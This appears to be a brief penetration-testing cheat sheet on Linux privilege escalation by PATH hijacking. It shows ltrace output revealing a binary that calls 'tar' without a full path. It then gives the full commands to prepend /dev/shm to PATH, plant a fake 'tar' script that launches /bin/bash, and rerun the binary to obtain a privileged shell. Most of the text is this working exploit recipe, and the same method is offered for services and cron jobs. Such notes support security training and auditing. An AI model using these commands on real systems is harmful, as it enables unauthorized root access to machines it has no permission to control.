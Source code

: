 
# Basic Information

If one cannot see a full path either in a service or a program, they can overwrite or append to the `$PATH` environment variable.

  
# Binaries
*The example below is for binaries, but can also be used for services or cronjobs*

1. Find the program that is being referenced
```bash
ltrace ./binary

<SNIP>
system("tar -cvf /root/file")
<SNIP>
```

`system` calls tar without full path, therefore we can add our own `tar` file to `$PATH`.

2. Make our own `tar`, add payload and append to `$PATH`

```bash
cd /dev/shm

export PATH=/dev/shm:$PATH
echo -e "#!/bin/bash\n/bin/bash" > tar
chmod +x tar
```

3. Run the program again

```
./binary
```